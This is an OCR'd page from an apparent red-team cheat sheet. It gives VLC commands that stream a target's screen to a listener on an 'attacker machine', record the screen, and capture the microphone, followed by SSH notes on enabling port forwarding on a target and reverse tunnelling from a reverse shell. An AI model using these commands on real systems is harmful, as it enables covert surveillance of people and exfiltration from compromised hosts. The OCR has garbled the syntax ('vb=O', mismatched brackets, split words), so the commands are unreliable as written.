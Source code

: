 ### Save and stream on broadcast

```text
# Start a listener on attacker machine for multicast
vlc udp://@ multicastaddr :1234

# Broadcast stream to a multicast address
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):udp{dst= multicastaddr :1234) :no-sout-rtp-sap :no-soutstandard-
sap :ttl=1 :sout-keep
```

### Save and record the screen in a file

```text
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):file{dst=C:\\Program Files (x86)\\VideoLAN\\VLC\\test.mp4)
:no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep
```

### Record and stream microphone on udp

```text
vlc dshow:// :dshow-vdev="None" :dshow-adev="Your Audio Device"
```

## SSH command

```text
/etc/ssh/ssh known hosts #System-wide known hosts
-/.ssh/known_hosts #Hosts user has logged into
sshd-generate #Generate SSH keys (DSA/RSA)
ssh keygen -t dsa -f /etc/ssh/ssh_host_dsa_key #Generate SSH DSA keys
ssh keygen -t rsa -f /etc/ssh/ssh_host_rsa_key #Generate SSH RSA keys

If already in ssh session, press SHIFT -C to configure tunnel
Port forwarding must be allowed on the target
/etc/ssh/sshd_config - AllowTcpForwarding YES
```

### Connect with ssh with specific port

```text
ssh root@2.2.2.2 -p 8222
```

### Reverse port forwarding using the tunnel (in the support user reverse shell)

```
ssh -R 4446:127.0.0.1:3128 master@192.168.2.2
http 127.0.0.1 4446
```
